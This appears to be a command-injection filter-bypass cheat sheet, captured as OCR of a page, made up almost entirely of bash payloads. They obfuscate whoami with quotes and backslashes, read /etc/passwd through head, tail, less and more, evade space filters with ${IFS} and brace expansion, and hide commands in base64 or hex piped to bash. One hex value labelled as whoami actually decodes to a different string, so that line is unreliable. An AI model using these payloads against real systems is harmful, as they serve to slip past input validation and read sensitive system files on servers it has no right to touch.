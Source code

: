 ```bash
# Command obfuscation
w'h'o'am'i
w"h"o"am"i
\w\h\o\a\m\i

# Alternative commands
# Instead of: cat /etc/passwd
head /etc/passwd
tail /etc/passwd
less /etc/passwd
more /etc/passwd

# Character substitution
$(rev<<<'imaohw')  # whoami reversed
$(printf "whoami")
```

### Space Bypass

Used when spaces are filtered:

```bash
# IFS variable
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
{cat,/etc/passwd}

# Line feed/Tabs
cat</etc/passwd
cat$'\x20'/etc/passwd

# Brace expansion
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X
```

### Environment Variable Bypass

Using environment variables to hide commands:

```bash
# Variable substitution
COMMAND=whoami
$COMMAND

# Base64 encoding
echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
export CMD="Y2F0IC9ldGMvcGFzc3dk";bash<<<$(base64 -d<<<$CMD)

# Hex encoding
bash<<<$(xxd -r -p<<<776863616D69)  # whoami in hex
```
